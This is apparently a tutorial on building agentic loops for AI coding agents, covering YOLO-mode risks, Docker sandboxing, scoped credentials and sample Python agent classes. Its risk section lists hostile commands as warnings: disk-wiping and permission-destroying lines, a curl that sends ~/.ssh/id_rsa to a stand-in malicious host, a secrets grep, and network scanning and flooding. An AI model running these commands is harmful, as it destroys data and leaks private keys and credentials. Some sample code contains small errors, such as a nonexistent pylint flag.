

⏱️ **Estimated Reading Time**: 12 minutes

## Introduction

The emergence of coding agents like Anthropic's Claude Code and OpenAI's Codex CLI represents a revolutionary shift in how we approach software development. These AI-powered tools can write code, execute it, debug errors, and iterate toward solutions autonomously. However, unlocking their full potential requires mastering a critical new skill: **designing agentic loops**.

This comprehensive tutorial will guide you through the principles, practices, and implementation strategies for creating effective agentic loops that maximize the productivity and safety of AI coding agents.

## What Are Agentic Loops?

An **agentic loop** is a structured process where an AI agent runs tools iteratively to achieve a specific goal. Think of it as a feedback system where the agent:

1. **Analyzes** the current state
2. **Executes** an action using available tools
3. **Evaluates** the results
4. **Iterates** based on feedback
5. **Continues** until the goal is achieved

### Core Components



The effectiveness of an agentic loop depends on three key factors:
- **Clear goal definition**
- **Appropriate tool selection**
- **Robust feedback mechanisms**

## Understanding YOLO Mode

### The Power and Peril of Automation

YOLO (You Only Live Once) mode refers to running agents with minimal human intervention, where commands execute automatically without approval prompts. While this dramatically increases productivity, it also introduces significant risks.

### Risk Assessment

#### 1. System Damage Risks
```bash
# Dangerous commands that could cause damage
rm -rf /important-directory
sudo chmod -R 777 /
dd if=/dev/zero of=/dev/sda
```

#### 2. Data Exfiltration Risks
```bash
# Commands that could leak sensitive data
curl -X POST https://malicious-site.com -d "$(cat ~/.ssh/id_rsa)"
env | grep -E "(API_KEY|PASSWORD|SECRET)" > /tmp/secrets.txt
```

#### 3. Network Attack Risks
```bash
# Commands that could use your machine for attacks
nmap -sS target-network.com
curl -X POST flood-target.com --data-binary @large-file.bin
```

### Safe YOLO Implementation Strategies

#### Option 1: Containerized Sandboxing

Create a secure Docker environment:

```dockerfile
# Dockerfile for agent sandbox
FROM ubuntu:22.04

# Install necessary tools
RUN apt-get update && apt-get install -y \
    python3 \
    python3-pip \
    nodejs \
    npm \
    git \
    curl \
    && rm -rf /var/lib/apt/lists/*

# Create non-root user
RUN useradd -m -s /bin/bash agent
USER agent
WORKDIR /home/agent

# Limit network access (optional)
# RUN echo "127.0.0.1 localhost" > /etc/hosts
```

Run the container with restrictions:
```bash
# Launch secure container
docker run -it \
  --network none \
  --memory="2g" \
  --cpus="1.0" \
  --read-only \
  --tmpfs /tmp \
  agent-sandbox:latest
```

#### Option 2: Cloud-Based Environments

**GitHub Codespaces Setup:**

```yaml
# .devcontainer/devcontainer.json
{
  "name": "Agent Sandbox",
  "image": "mcr.microsoft.com/devcontainers/universal:2",
  "features": {
    "ghcr.io/devcontainers/features/docker-in-docker:2": {}
  },
  "customizations": {
    "vscode": {
      "extensions": [
        "ms-python.python",
        "ms-vscode.vscode-json"
      ]
    }
  },
  "postCreateCommand": "pip install -r requirements.txt"
}
```

#### Option 3: Network-Restricted Environment

Configure firewall rules to limit outbound connections:

```bash
# Allow only specific domains
sudo ufw default deny outgoing
sudo ufw allow out to pypi.org
sudo ufw allow out to npmjs.com
sudo ufw allow out to github.com
sudo ufw enable
```

## Tool Selection and Configuration

### Essential Tool Categories

#### 1. Development Tools
```bash
# Package managers
pip install package-name
npm install package-name
cargo install package-name

# Build tools
make build
cmake --build .
gradle build

# Version control
git clone repository-url
git commit -m "message"
git push origin branch
```

#### 2. Testing and Validation Tools
```bash
# Unit testing
pytest tests/
npm test
cargo test

# Linting and formatting
pylint src/
eslint src/
rustfmt src/

# Security scanning
bandit -r src/
npm audit
cargo audit
```

#### 3. Deployment and Infrastructure Tools
```bash
# Containerization
docker build -t app:latest .
docker run -p 8080:8080 app:latest

# Cloud deployment
kubectl apply -f deployment.yaml
terraform apply
aws s3 sync ./build s3://bucket-name
```

### Creating Tool Documentation

Create an `AGENTS.md` file to guide your AI agent:

```markdown
# Agent Tools Documentation

## Screenshot Tool
To take a screenshot of a website:
```bash
shot-scraper https://example.com -w 1200 -h 800 -o screenshot.png
```

## Database Operations
To run database migrations:
```bash
python manage.py migrate
```

To create a backup:
```bash
pg_dump database_name > backup.sql
```

## API Testing
To test API endpoints:
```bash
curl -X POST https://api.example.com/endpoint \
  -H "Content-Type: application/json" \
  -d '{"key": "value"}'
```
```

### Advanced Tool Integration

#### Custom Shell Functions

```bash
# ~/.bashrc additions for agents
agent_deploy() {
    echo "Deploying to $1 environment..."
    if [ "$1" = "staging" ]; then
        docker build -t app:staging .
        docker push registry.com/app:staging
        kubectl set image deployment/app app=registry.com/app:staging
    fi
}

agent_test() {
    echo "Running comprehensive tests..."
    pytest --cov=src tests/
    npm run test:e2e
    docker run --rm -v $(pwd):/app security-scanner
}
```

## Credential Management and Security

### Principle of Least Privilege

#### Environment-Specific Credentials

```bash
# Development environment variables
export API_URL="https://api-dev.example.com"
export DB_HOST="dev-db.example.com"
export BUDGET_LIMIT="5.00"

# Staging environment
export API_URL="https://api-staging.example.com"
export DB_HOST="staging-db.example.com"
export BUDGET_LIMIT="50.00"
```

#### Scoped API Keys

Create dedicated service accounts with minimal permissions:

```yaml
# AWS IAM Policy for agent
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": [
        "s3:GetObject",
        "s3:PutObject"
      ],
      "Resource": "arn:aws:s3:::agent-sandbox/*"
    },
    {
      "Effect": "Allow",
      "Action": [
        "lambda:InvokeFunction"
      ],
      "Resource": "arn:aws:lambda:*:*:function:agent-*"
    }
  ]
}
```

#### Budget Controls

```python
# Budget monitoring script
import boto3
import os

def check_budget():
    client = boto3.client('budgets')
    budget_name = os.environ.get('BUDGET_NAME', 'agent-budget')
    
    response = client.describe_budget(
        AccountId=os.environ['AWS_ACCOUNT_ID'],
        BudgetName=budget_name
    )
    
    actual_spend = response['Budget']['CalculatedSpend']['ActualSpend']['Amount']
    budget_limit = response['Budget']['BudgetLimit']['Amount']
    
    if float(actual_spend) > float(budget_limit) * 0.8:
        raise Exception(f"Budget limit approaching: ${actual_spend}/${budget_limit}")

# Run before expensive operations
check_budget()
```

## Practical Implementation Examples

### Example 1: Automated Testing Pipeline

```python
# test_automation_agent.py
import subprocess
import json
import time

class TestAutomationAgent:
    def __init__(self, project_path):
        self.project_path = project_path
        self.results = []
    
    def run_unit_tests(self):
        """Execute unit tests and capture results"""
        try:
            result = subprocess.run(
                ['pytest', '--json-report', '--json-report-file=test_results.json'],
                cwd=self.project_path,
                capture_output=True,
                text=True,
                timeout=300
            )
            
            with open(f"{self.project_path}/test_results.json", 'r') as f:
                test_data = json.load(f)
            
            self.results.append({
                'type': 'unit_tests',
                'passed': test_data['summary']['passed'],
                'failed': test_data['summary']['failed'],
                'duration': test_data['summary']['duration']
            })
            
            return result.returncode == 0
        except subprocess.TimeoutExpired:
            self.results.append({
                'type': 'unit_tests',
                'error': 'timeout',
                'duration': 300
            })
            return False
    
    def run_integration_tests(self):
        """Execute integration tests"""
        try:
            result = subprocess.run(
                ['npm', 'run', 'test:integration'],
                cwd=self.project_path,
                capture_output=True,
                text=True,
                timeout=600
            )
            
            self.results.append({
                'type': 'integration_tests',
                'success': result.returncode == 0,
                'output': result.stdout[-500:]  # Last 500 chars
            })
            
            return result.returncode == 0
        except subprocess.TimeoutExpired:
            return False
    
    def optimize_failing_tests(self):
        """Analyze and attempt to fix failing tests"""
        if not self.results:
            return False
        
        failed_tests = [r for r in self.results if not r.get('success', True)]
        
        for test in failed_tests:
            if test['type'] == 'unit_tests':
                self.fix_unit_test_issues()
            elif test['type'] == 'integration_tests':
                self.fix_integration_issues()
        
        return True
    
    def fix_unit_test_issues(self):
        """Attempt to fix common unit test issues"""
        # Run linting first
        subprocess.run(['pylint', '--fix', 'src/'], cwd=self.project_path)
        
        # Update dependencies
        subprocess.run(['pip', 'install', '--upgrade', '-r', 'requirements.txt'], 
                      cwd=self.project_path)
    
    def fix_integration_issues(self):
        """Attempt to fix integration test issues"""
        # Restart services
        subprocess.run(['docker-compose', 'restart'], cwd=self.project_path)
        time.sleep(10)  # Wait for services to start
    
    def generate_report(self):
        """Generate comprehensive test report"""
        report = {
            'timestamp': time.time(),
            'results': self.results,
            'summary': {
                'total_tests': len(self.results),
                'passed': len([r for r in self.results if r.get('success', True)]),
                'failed': len([r for r in self.results if not r.get('success', True)])
            }
        }
        
        with open(f"{self.project_path}/agent_test_report.json", 'w') as f:
            json.dump(report, f, indent=2)
        
        return report

# Usage example
if __name__ == "__main__":
    agent = TestAutomationAgent("/path/to/project")
    
    # Run the agentic loop
    max_iterations = 3
    iteration = 0
    
    while iteration < max_iterations:
        print(f"Iteration {iteration + 1}")
        
        unit_success = agent.run_unit_tests()
        integration_success = agent.run_integration_tests()
        
        if unit_success and integration_success:
            print("All tests passed!")
            break
        
        print("Tests failed, attempting fixes...")
        agent.optimize_failing_tests()
        iteration += 1
    
    # Generate final report
    report = agent.generate_report()
    print(f"Final report: {report['summary']}")
```

### Example 2: Performance Optimization Loop

```python
# performance_optimization_agent.py
import subprocess
import time
import json
import statistics

class PerformanceOptimizationAgent:
    def __init__(self, app_url, optimization_targets):
        self.app_url = app_url
        self.targets = optimization_targets
        self.baseline_metrics = None
        self.optimization_history = []
    
    def measure_performance(self):
        """Measure current application performance"""
        metrics = {}
        
        # Load time measurement
        load_times = []
        for _ in range(5):  # Take 5 measurements
            start_time = time.time()
            result = subprocess.run([
                'curl', '-w', '%{time_total}', '-o', '/dev/null', '-s', self.app_url
            ], capture_output=True, text=True)
            
            if result.returncode == 0:
                load_times.append(float(result.stdout.strip()))
            time.sleep(1)
        
        if load_times:
            metrics['avg_load_time'] = statistics.mean(load_times)
            metrics['min_load_time'] = min(load_times)
            metrics['max_load_time'] = max(load_times)
        
        # Memory usage (if running locally)
        try:
            result = subprocess.run([
                'docker', 'stats', '--no-stream', '--format', 
                'table {{.Container}}\t{{.MemUsage}}'
            ], capture_output=True, text=True)
            
            if result.returncode == 0:
                lines = result.stdout.strip().split('\n')[1:]  # Skip header
                for line in lines:
                    if 'app' in line.lower():
                        mem_usage = line.split('\t')[1].split('/')[0].strip()
                        metrics['memory_usage'] = mem_usage
                        break
        except:
            pass
        
        return metrics
    
    def apply_optimization(self, optimization_type):
        """Apply specific optimization technique"""
        success = False
        
        if optimization_type == 'enable_gzip':
            # Enable gzip compression
            config_update = """
location / {
    gzip on;
    gzip_types text/plain text/css application/json application/javascript;
    try_files $uri $uri/ =404;
}
"""
            success = self.update_nginx_config(config_update)
        
        elif optimization_type == 'add_caching':
            # Add browser caching headers
            config_update = """
location ~* \.(js|css|png|jpg|jpeg|gif|ico|svg)$ {
    expires 1y;
    add_header Cache-Control "public, immutable";
}
"""
            success = self.update_nginx_config(config_update)
        
        elif optimization_type == 'optimize_images':
            # Optimize images
            result = subprocess.run([
                'find', '.', '-name', '*.jpg', '-exec', 
                'jpegoptim', '--max=85', '{}', ';'
            ], capture_output=True)
            success = result.returncode == 0
        
        elif optimization_type == 'minify_assets':
            # Minify CSS and JS
            result = subprocess.run(['npm', 'run', 'build:prod'], 
                                  capture_output=True)
            success = result.returncode == 0
        
        # Restart application after changes
        if success:
            subprocess.run(['docker-compose', 'restart', 'app'])
            time.sleep(10)  # Wait for restart
        
        return success
    
    def update_nginx_config(self, config_snippet):
        """Update nginx configuration"""
        try:
            # Read current config
            with open('nginx.conf', 'r') as f:
                current_config = f.read()
            
            # Add new configuration
            updated_config = current_config.replace(
                'location / {',
                f'location / {{\n{config_snippet}'
            )
            
            # Write updated config
            with open('nginx.conf', 'w') as f:
                f.write(updated_config)
            
            return True
        except Exception as e:
            print(f"Failed to update nginx config: {e}")
            return False
    
    def evaluate_improvement(self, before_metrics, after_metrics):
        """Evaluate if optimization improved performance"""
        improvements = {}
        
        for metric in before_metrics:
            if metric in after_metrics:
                before_val = before_metrics[metric]
                after_val = after_metrics[metric]
                
                if isinstance(before_val, (int, float)) and isinstance(after_val, (int, float)):
                    improvement = ((before_val - after_val) / before_val) * 100
                    improvements[metric] = improvement
        
        return improvements
    
    def run_optimization_loop(self):
        """Main optimization loop"""
        print("Starting performance optimization...")
        
        # Establish baseline
        self.baseline_metrics = self.measure_performance()
        print(f"Baseline metrics: {self.baseline_metrics}")
        
        optimizations = [
            'enable_gzip',
            'add_caching', 
            'optimize_images',
            'minify_assets'
        ]
        
        for optimization in optimizations:
            print(f"\nApplying optimization: {optimization}")
            
            # Measure before
            before_metrics = self.measure_performance()
            
            # Apply optimization
            if self.apply_optimization(optimization):
                # Wait for changes to take effect
                time.sleep(5)
                
                # Measure after
                after_metrics = self.measure_performance()
                
                # Evaluate improvement
                improvements = self.evaluate_improvement(before_metrics, after_metrics)
                
                optimization_result = {
                    'optimization': optimization,
                    'before_metrics': before_metrics,
                    'after_metrics': after_metrics,
                    'improvements': improvements,
                    'timestamp': time.time()
                }
                
                self.optimization_history.append(optimization_result)
                
                print(f"Results: {improvements}")
                
                # Check if we met our targets
                if self.check_targets_met(after_metrics):
                    print("Performance targets achieved!")
                    break
            else:
                print(f"Failed to apply optimization: {optimization}")
        
        return self.generate_optimization_report()
    
    def check_targets_met(self, current_metrics):
        """Check if performance targets have been met"""
        for target_metric, target_value in self.targets.items():
            if target_metric in current_metrics:
                if current_metrics[target_metric] > target_value:
                    return False
        return True
    
    def generate_optimization_report(self):
        """Generate comprehensive optimization report"""
        report = {
            'baseline_metrics': self.baseline_metrics,
            'optimization_history': self.optimization_history,
            'final_metrics': self.measure_performance(),
            'targets': self.targets,
            'targets_met': self.check_targets_met(self.measure_performance()),
            'timestamp': time.time()
        }
        
        with open('performance_optimization_report.json', 'w') as f:
            json.dump(report, f, indent=2)
        
        return report

# Usage example
if __name__ == "__main__":
    targets = {
        'avg_load_time': 2.0,  # Target: under 2 seconds
        'max_load_time': 3.0   # Target: max 3 seconds
    }
    
    agent = PerformanceOptimizationAgent('http://localhost:8080', targets)
    report = agent.run_optimization_loop()
    
    print(f"\nOptimization complete!")
    print(f"Targets met: {report['targets_met']}")
    print(f"Final metrics: {report['final_metrics']}")
```

## When to Use Agentic Loops

### Ideal Scenarios

#### 1. Debugging Complex Issues
```python
# Debugging agent example
class DebuggingAgent:
    def __init__(self, failing_test):
        self.failing_test = failing_test
        self.investigation_steps = []
    
    def investigate_failure(self):
        # Run test in verbose mode
        self.run_verbose_test()
        
        # Check logs
        self.analyze_logs()
        
        # Examine dependencies
        self.check_dependencies()
        
        # Try potential fixes
        self.attempt_fixes()
    
    def run_verbose_test(self):
        result = subprocess.run([
            'pytest', '-v', '-s', '--tb=long', self.failing_test
        ], capture_output=True, text=True)
        
        self.investigation_steps.append({
            'step': 'verbose_test',
            'output': result.stdout,
            'errors': result.stderr
        })
    
    def analyze_logs(self):
        # Check application logs
        log_files = ['app.log', 'error.log', 'debug.log']
        for log_file in log_files:
            if os.path.exists(log_file):
                with open(log_file, 'r') as f:
                    recent_logs = f.readlines()[-100:]  # Last 100 lines
                
                self.investigation_steps.append({
                    'step': f'analyze_{log_file}',
                    'content': recent_logs
                })
```

#### 2. Dependency Management
```bash
#!/bin/bash
# dependency_upgrade_agent.sh

echo "Starting dependency upgrade process..."

# Check current versions
pip list --outdated > outdated_packages.txt

# Upgrade packages one by one
while IFS= read -r line; do
    package=$(echo $line | awk '{print $1}')
    
    if [ "$package" != "Package" ] && [ "$package" != "---" ]; then
        echo "Upgrading $package..."
        
        # Create backup of requirements
        cp requirements.txt requirements.txt.backup
        
        # Upgrade package
        pip install --upgrade $package
        
        # Run tests
        if pytest tests/ --maxfail=1; then
            echo "$package upgraded successfully"
            pip freeze | grep $package >> requirements.txt.new
        else
            echo "$package upgrade failed, rolling back"
            pip install -r requirements.txt.backup
        fi
    fi
done < outdated_packages.txt
```

#### 3. Container Optimization
```python
# container_optimization_agent.py
import docker
import subprocess
import json

class ContainerOptimizationAgent:
    def __init__(self, image_name):
        self.image_name = image_name
        self.client = docker.from_env()
        self.optimization_attempts = []
    
    def measure_image_size(self, tag):
        """Measure Docker image size"""
        try:
            image = self.client.images.get(f"{self.image_name}:{tag}")
            return image.attrs['Size']
        except:
            return None
    
    def try_base_image_optimization(self):
        """Try different base images"""
        base_images = [
            'python:3.11-slim',
            'python:3.11-alpine',
            'python:3.11-slim-bullseye'
        ]
        
        results = []
        
        for base_image in base_images:
            # Create optimized Dockerfile
            dockerfile_content = f"""
FROM {base_image}

WORKDIR /app

# Copy requirements first for better caching
COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt

# Copy application code
COPY . .

# Create non-root user
RUN adduser --disabled-password --gecos '' appuser
USER appuser

EXPOSE 8000
CMD ["python", "app.py"]
"""
            
            # Write Dockerfile
            with open('Dockerfile.optimized', 'w') as f:
                f.write(dockerfile_content)
            
            # Build image
            tag = f"optimized-{base_image.replace(':', '-').replace('/', '-')}"
            build_result = subprocess.run([
                'docker', 'build', '-f', 'Dockerfile.optimized', 
                '-t', f"{self.image_name}:{tag}", '.'
            ], capture_output=True, text=True)
            
            if build_result.returncode == 0:
                size = self.measure_image_size(tag)
                results.append({
                    'base_image': base_image,
                    'tag': tag,
                    'size': size,
                    'size_mb': size / (1024 * 1024) if size else None
                })
        
        return results
    
    def optimize_layers(self):
        """Optimize Docker layers"""
        optimized_dockerfile = """
FROM python:3.11-slim

# Combine RUN commands to reduce layers
RUN apt-get update && apt-get install -y \\
    gcc \\
    && rm -rf /var/lib/apt/lists/* \\
    && pip install --no-cache-dir --upgrade pip

WORKDIR /app

# Copy and install dependencies
COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt \\
    && pip cache purge

# Copy application code
COPY . .

# Create user and set permissions in one layer
RUN adduser --disabled-password --gecos '' appuser \\
    && chown -R appuser:appuser /app

USER appuser
EXPOSE 8000
CMD ["python", "app.py"]
"""
        
        with open('Dockerfile.layered', 'w') as f:
            f.write(optimized_dockerfile)
        
        # Build optimized image
        result = subprocess.run([
            'docker', 'build', '-f', 'Dockerfile.layered',
            '-t', f"{self.image_name}:layered", '.'
        ], capture_output=True, text=True)
        
        return result.returncode == 0
    
    def run_optimization_loop(self):
        """Main optimization loop"""
        # Measure original size
        original_size = self.measure_image_size('latest')
        
        print(f"Original image size: {original_size / (1024*1024):.2f} MB")
        
        # Try base image optimizations
        base_results = self.try_base_image_optimization()
        
        # Find best base image
        if base_results:
            best_base = min(base_results, key=lambda x: x['size'] or float('inf'))
            print(f"Best base image: {best_base['base_image']} "
                  f"({best_base['size_mb']:.2f} MB)")
        
        # Try layer optimization
        if self.optimize_layers():
            layered_size = self.measure_image_size('layered')
            print(f"Layered optimization size: {layered_size / (1024*1024):.2f} MB")
        
        # Generate report
        return self.generate_report(original_size, base_results)
    
    def generate_report(self, original_size, base_results):
        """Generate optimization report"""
        report = {
            'original_size_mb': original_size / (1024*1024),
            'base_image_results': base_results,
            'best_optimization': min(base_results, key=lambda x: x['size'] or float('inf')),
            'size_reduction_percent': 0
        }
        
        if base_results:
            best_size = report['best_optimization']['size']
            report['size_reduction_percent'] = (
                (original_size - best_size) / original_size * 100
            )
        
        with open('container_optimization_report.json', 'w') as f:
            json.dump(report, f, indent=2)
        
        return report

# Usage
if __name__ == "__main__":
    agent = ContainerOptimizationAgent('my-app')
    report = agent.run_optimization_loop()
    print(f"Size reduction: {report['size_reduction_percent']:.1f}%")
```

## Best Practices and Guidelines

### 1. Start Simple, Iterate Complex

```python
# Simple agentic loop template
class SimpleAgenticLoop:
    def __init__(self, goal, tools, max_iterations=10):
        self.goal = goal
        self.tools = tools
        self.max_iterations = max_iterations
        self.iteration_count = 0
        self.history = []
    
    def evaluate_progress(self):
        """Override this method to define success criteria"""
        raise NotImplementedError
    
    def select_next_action(self):
        """Override this method to define action selection logic"""
        raise NotImplementedError
    
    def execute_action(self, action):
        """Override this method to define action execution"""
        raise NotImplementedError
    
    def run(self):
        """Main loop execution"""
        while self.iteration_count < self.max_iterations:
            # Check if goal is achieved
            if self.evaluate_progress():
                return True
            
            # Select and execute next action
            action = self.select_next_action()
            result = self.execute_action(action)
            
            # Record history
            self.history.append({
                'iteration': self.iteration_count,
                'action': action,
                'result': result,
                'timestamp': time.time()
            })
            
            self.iteration_count += 1
        
        return False  # Max iterations reached
```

### 2. Implement Robust Error Handling

```python
import traceback
import logging

class RobustAgenticLoop(SimpleAgenticLoop):
    def __init__(self, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.logger = logging.getLogger(__name__)
        self.error_count = 0
        self.max_errors = 3
    
    def execute_action_safely(self, action):
        """Execute action with error handling"""
        try:
            return self.execute_action(action)
        except Exception as e:
            self.error_count += 1
            self.logger.error(f"Action failed: {action}, Error: {str(e)}")
            self.logger.error(f"Traceback: {traceback.format_exc()}")
            
            if self.error_count >= self.max_errors:
                raise Exception(f"Too many errors ({self.max_errors}), stopping loop")
            
            return {'error': str(e), 'action': action}
    
    def run(self):
        """Enhanced run with error handling"""
        try:
            return super().run()
        except Exception as e:
            self.logger.error(f"Loop failed: {str(e)}")
            return False
```

### 3. Monitor Resource Usage

```python
import psutil
import time

class ResourceMonitoredLoop(RobustAgenticLoop):
    def __init__(self, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.max_memory_mb = kwargs.get('max_memory_mb', 1000)
        self.max_cpu_percent = kwargs.get('max_cpu_percent', 80)
    
    def check_resources(self):
        """Monitor system resources"""
        memory_usage = psutil.virtual_memory().used / (1024 * 1024)  # MB
        cpu_usage = psutil.cpu_percent(interval=1)
        
        if memory_usage > self.max_memory_mb:
            raise Exception(f"Memory usage too high: {memory_usage:.1f}MB")
        
        if cpu_usage > self.max_cpu_percent:
            self.logger.warning(f"High CPU usage: {cpu_usage:.1f}%")
            time.sleep(2)  # Brief pause to reduce load
    
    def execute_action_safely(self, action):
        """Execute with resource monitoring"""
        self.check_resources()
        return super().execute_action_safely(action)
```

## Advanced Patterns and Techniques

### 1. Multi-Agent Coordination

```python
class MultiAgentCoordinator:
    def __init__(self, agents):
        self.agents = agents
        self.shared_state = {}
        self.coordination_history = []
    
    def coordinate_agents(self, task):
        """Coordinate multiple agents on a complex task"""
        # Decompose task into subtasks
        subtasks = self.decompose_task(task)
        
        # Assign subtasks to agents
        assignments = self.assign_subtasks(subtasks)
        
        # Execute subtasks in parallel or sequence
        results = self.execute_assignments(assignments)
        
        # Merge results
        final_result = self.merge_results(results)
        
        return final_result
    
    def decompose_task(self, task):
        """Break down complex task into manageable subtasks"""
        if task['type'] == 'full_stack_development':
            return [
                {'type': 'backend_api', 'priority': 1},
                {'type': 'database_schema', 'priority': 1},
                {'type': 'frontend_ui', 'priority': 2},
                {'type': 'integration_tests', 'priority': 3}
            ]
        return [task]
    
    def assign_subtasks(self, subtasks):
        """Assign subtasks to appropriate agents"""
        assignments = []
        
        for subtask in subtasks:
            best_agent = self.find_best_agent(subtask)
            assignments.append({
                'agent': best_agent,
                'subtask': subtask
            })
        
        return assignments
    
    def find_best_agent(self, subtask):
        """Find the most suitable agent for a subtask"""
        for agent in self.agents:
            if subtask['type'] in agent.capabilities:
                return agent
        
        # Fallback to general-purpose agent
        return self.agents[0]
```

### 2. Learning and Adaptation

```python
class LearningAgenticLoop(ResourceMonitoredLoop):
    def __init__(self, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.success_patterns = {}
        self.failure_patterns = {}
    
    def learn_from_history(self):
        """Analyze history to improve future decisions"""
        for entry in self.history:
            action_type = entry['action']['type']
            was_successful = entry['result'].get('success', False)
            
            if was_successful:
                if action_type not in self.success_patterns:
                    self.success_patterns[action_type] = []
                self.success_patterns[action_type].append(entry)
            else:
                if action_type not in self.failure_patterns:
                    self.failure_patterns[action_type] = []
                self.failure_patterns[action_type].append(entry)
    
    def select_next_action(self):
        """Enhanced action selection based on learning"""
        # Learn from past iterations
        self.learn_from_history()
        
        # Get base action selection
        base_action = super().select_next_action()
        
        # Modify based on learned patterns
        action_type = base_action['type']
        
        if action_type in self.failure_patterns:
            # This action type has failed before, try alternatives
            alternatives = self.get_alternative_actions(action_type)
            if alternatives:
                return alternatives[0]
        
        return base_action
    
    def get_alternative_actions(self, failed_action_type):
        """Get alternative actions when primary approach fails"""
        alternatives_map = {
            'direct_fix': ['gradual_fix', 'rollback_and_retry'],
            'full_rebuild': ['incremental_build', 'cached_build'],
            'automated_test': ['manual_verification', 'staged_testing']
        }
        
        return alternatives_map.get(failed_action_type, [])
```

## Conclusion

Designing effective agentic loops is a critical skill for maximizing the potential of AI coding agents. By following the principles and practices outlined in this tutorial, you can create robust, safe, and productive automated workflows that significantly enhance your development process.

### Key Takeaways

1. **Safety First**: Always implement proper sandboxing and security measures before enabling YOLO mode
2. **Clear Goals**: Define specific, measurable success criteria for your agentic loops
3. **Tool Selection**: Choose the right tools and provide clear documentation for your agents
4. **Iterative Improvement**: Start simple and gradually add complexity as you gain experience
5. **Monitor and Learn**: Implement logging, monitoring, and learning mechanisms to improve over time

### Next Steps

1. **Practice**: Start with simple automation tasks in a safe environment
2. **Experiment**: Try different tool combinations and loop designs
3. **Share**: Document your experiences and share learnings with the community
4. **Scale**: Gradually apply agentic loops to more complex, high-value tasks

The field of agentic loop design is still emerging, and there's tremendous opportunity to pioneer new patterns and techniques. By mastering these fundamentals, you'll be well-positioned to leverage the full power of AI coding agents in your development workflow.

---

*This tutorial is based on insights from Simon Willison's article "[Designing agentic loops](https://simonwillison.net/2025/Sep/30/designing-agentic-loops/)" and expanded with practical implementation examples and best practices.*
